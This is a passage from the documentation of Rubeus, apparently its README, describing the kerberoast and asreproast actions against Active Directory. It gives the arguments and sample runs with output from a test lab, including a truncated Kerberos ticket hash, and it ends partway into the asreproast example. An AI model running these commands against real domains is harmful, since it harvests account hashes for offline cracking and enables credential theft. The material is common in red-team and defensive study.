 
## kerberoast

The **kerberoast** action replaces the [SharpRoast](https://github.com/GhostPack/SharpRoast) project's functionality. Like SharpRoast, this action uses the [KerberosRequestorSecurityToken.GetRequest Method()](https://msdn.microsoft.com/en-us/library/system.identitymodel.tokens.kerberosrequestorsecuritytoken.getrequest(v=vs.110).aspx) method that was contributed to PowerView by [@machosec](https://twitter.com/machosec) in order to request the proper service ticket. Unlike SharpRoast, this action now performs proper ASN.1 parsing of the result structures.

With no other arguments, all user accounts with SPNs set in the current domain are kerberoasted. The /spn:X argument roasts just the specified SPN, the /user:X argument roasts just the specified user, and the /ou:X argument roasts just users in the specific OU.

Also, if you wanted to use alternate domain credentials for kerberoasting, that can be specified with /creduserDOMAIN.FQDN\USER /credpassword:PASSWORD.

    c:\Rubeus>Rubeus.exe kerberoast /ou:OU=TestingOU,DC=testlab,DC=local

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.0.0

    [*] Action: Kerberoasting

    [*] SamAccountName         : testuser2
    [*] DistinguishedName      : CN=testuser2,OU=TestingOU,DC=testlab,DC=local
    [*] ServicePrincipalName   : service/host
    [*] Hash                   : $krb5tgs$5$*$testlab.local$service/host*$95160F02CA8EB...(snip)...


## asreproast

The **asreproast** action replaces the [ASREPRoast](https://github.com/HarmJ0y/ASREPRoast/) project which executed similar actions with the (larger sized) [BouncyCastle](https://www.bouncycastle.org/) library. If a domain user does not have Kerberos preauthentication enabled, an AS-REP can be successfully requested for the user, and a component of the structure can be cracked offline a la kerberoasting.

The /user:X parameter is required, while the /domain and /dc arguments are optional, pulling system defaults as other actions do. The [ASREPRoast](https://github.com/HarmJ0y/ASREPRoast/) project has a JohnTheRipper compatible cracking module for this hash type.

    c:\Rubeus>Rubeus.exe asreproast /user:dfm.a

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/
